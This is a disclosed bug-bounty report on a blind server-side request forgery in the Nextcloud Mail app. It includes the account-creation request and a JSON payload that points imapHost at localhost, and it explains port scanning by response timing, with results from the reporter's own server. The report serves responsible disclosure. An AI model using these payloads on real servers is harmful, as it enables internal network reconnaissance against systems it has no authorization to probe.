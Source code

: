 # Mail app - blind SSRF via imapHost parameter

## Report Details
- **Report ID**: 1736390
- **URL**: https://hackerone.com/reports/1736390
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-10-15T21:08:17.663Z
- **Disclosed**: 2023-02-06T21:27:12.921Z

## Reporter
- **Username**: supr4s
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nextcloud

## Vulnerability Information
Hi everyone,

I would like to report here a Blind SSRF vulnerability through the Nextcloud `Mail` application.

Tested on latest Mail release : `2.0.1`

## Steps To Reproduce:

During the connection process of a mail account on the integrated Mail application of Nextcloud, once all the fields validated (IMAP, STMP etc) the following POST request is made: 

```
POST /apps/mail/api/accounts HTTP/2
Host: redacted
Cookie: redacted
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: application/json, text/plain, */*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
Requesttoken: redacted
Content-Length: 333
Origin:  redacted
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"imapHost":"myimapserver.org","imapPort":993,"imapSslMode":"tls","imapUser":"xxx@xxx.org","imapPassword":"xxx","smtpHost":"mysmtpserver.org","smtpPort":465,"smtpSslMode":"tls","smtpUser":"xxx@xxx.org","smtpPassword":"xxx","accountName":"xxx@xxx.orgr","emailAddress":"xxx@xxx.org"}
```

From there, the SSRF will take place with the `imapHost` parameter and the desired port number with the `imapPort` parameter.

We can already confirm this with a hit to my burp Collaborator instance 

{F1987615}

We can then use this for a port scan based on the response time.
Response time < 100ms = port closed/no listening on it.
Port > 1000ms response, port open, listening with a service on it. Here I will scan my server locally: 

```
{"imapHost":"127.0.0.1","imapPort":<port_number>,"imapSslMode":"none","imapUser":"xxx@xxx.org","imapPassword":"xxx","smtpSslMode":"none","smtpUser":"xxx@xxx.org","smtpPassword":"xxx","accountName":"xxx@xxx.org","emailAddress":"xxx@xxx.org"}
```
It is important here to leave the parameter `imapSslMode` on `none` ! 

{F1987665}

To automate, this can be done with the Intruder tool from Burp Suite.
And here the result on my server : 

```
Port 80 - response time : 5200ms - Apache2 service
Port 443 - response time : 5200ms - Apache2 service
Port 8080 - response time 5140ms - CrowdSec
Port 6060 - response time 5180ms - CrowdSec
Port 5432 - response time 5191ms -  PostgreSQL
Port 6379 - response time 5216ms - My Redis instance for Nextcloud
```

{F1987657}

I tried a lot to increase the impact of this totally blind SSRF, I don't think it is possible to increase the impact of this vulnerability.

## Impact

From [OWASP](https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_%28SSRF%29/) : 

> SSRF flaws occur whenever a web application is fetching a remote resource without validating the user-supplied URL. It allows an attacker to coerce the application to send a crafted request to an unexpected destination, even when protected by a firewall, VPN, or another type of network access control list (ACL).

We are here on a totally Blind SSRF vulnerability.

This vulnerability can be exploited by any user, regardless of their rights, as long as the `mail` application is installed and enabled. A malicious person can therefore retrieve the services running locally on the server, scan your internal network for interesting information about which IPs are responding, which services are running on each IP address, etc.

Looking forward to exchanging.

Regards,
Supr4s

## Attachments
- Capture_d__cran_du_2022-10-15_22-35-14.png
- dcd445133acdbe59f14c5df1334c8ae4.png
- Capture_d__cran_du_2022-10-15_22-53-34.png
- Capture_d__cran_du_2022-10-15_22-59-56.png
